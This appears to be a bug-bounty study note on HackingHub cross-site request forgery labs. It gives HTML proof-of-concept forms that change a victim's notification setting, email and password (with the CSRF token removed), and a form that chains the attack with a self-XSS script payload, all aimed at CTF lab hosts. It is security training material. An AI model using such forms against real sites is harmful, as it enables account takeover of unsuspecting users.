

# CSRF (HackingHub)

Cross-Site Request Forgery
## Update Notifications

GET
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Enable Notifications</title>
</head>
<body>
    <h1>Enable Notifications</h1>
    <form action="https://e55tawg1.eu1.ctfio.com/notifications" method="GET">
        <input type="hidden" name="enabled" value="true">
        <button type="submit">Enable Notifications</button>
    </form>
</body>
</html>
```

## Update Email

POST
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Update Email</title>
</head>
<body>
    <h1>Update Email</h1>
    <form action="https://rp9r4px8.eu1.ctfio.com/email" method="POST">
        <!-- Email input field -->
        <label for="email">Email:</label>
        <input type="email" id="email" name="email" value="redacted@example.invalid" required>
        <button type="submit">Submit</button>
    </form>
</body>
</html>
```

## Update Password



Delete CSRF on the request

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Update Password</title>
</head>
<body>
    <h1>Update Password</h1>
    <form action="https://rp9r4px8.eu1.ctfio.com/password" method="POST">
        <!-- Password input field -->
        <label for="password">New Password:</label>
        <input type="password" id="password" name="password" value="wtf" required>

        <button type="submit">Change Password</button>
    </form>
</body>
</html>
```

## Escalating Self-XSS with Cross-Site Request Forgery (CSRF)

```html
<html>
  <body>
    <form action="https://uazfyzwu.eu1.ctfio.com/post/" method="POST">
      <input type="hidden" name="name" value="0000000"><U>test123<script>alert()</script>
      <input type="submit" value="Submit">
    </form>
  </body>
</html>
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | BB/hackinghub/Client side/CSRF.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

Se han sustituido valores literales de autenticación o direcciones de correo por marcadores. Los detalles sin valores están en [el registro de redacciones](../../Resources/Audit/redactions.csv).

[Índice de categoría](../README.md) · [Inicio](../../README.md)
